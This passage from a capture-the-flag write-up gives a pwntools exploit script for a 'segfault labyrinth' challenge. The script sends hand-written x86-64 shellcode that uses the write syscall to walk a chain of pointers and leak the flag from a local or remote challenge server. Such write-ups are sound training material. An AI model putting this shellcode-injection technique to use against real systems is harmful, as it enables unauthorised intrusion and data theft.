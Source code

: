 ### Intended Solution Alternative (no `stat`) `exploit3.1.py`

Same as above, but only using `write` and dealing with all the garbage:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./challenge', checksec=False)

if args.REMOTE:
    p = remote('segfault-labyrinth.2022.ctfcompetition.com', 1337)
else:
    p = process(binary.path)

shellcode = asm(f'''
mov r15, rdi
mov rdi, 1
mov rdx, 100
mov r14, 10
loop1:
    dec r14
    mov r13, 16
    loop2:
        dec r13
        mov rsi, qword ptr [r15 + r13*8]
        mov eax, {constants.SYS_write}
        syscall
        cmp rax, 100
        jne loop2
    test r14, r14
    je end
    mov r15, qword ptr [r15 + r13*8]
    jmp loop1
end:
xor rdi, rdi
mov eax, {constants.SYS_exit}
syscall
''')

if args.D: print(disasm(shellcode))
assert(len(shellcode) < 0x1000)
p.sendafter(b'Labyrinth\n',p64(len(shellcode)))
p.send(shellcode)
_ = p.recvall()[900:] # garbage collection
_ = _[:_.find(b'\0')].decode().strip() # extract flag from garbage
p.close()
print(_)
```
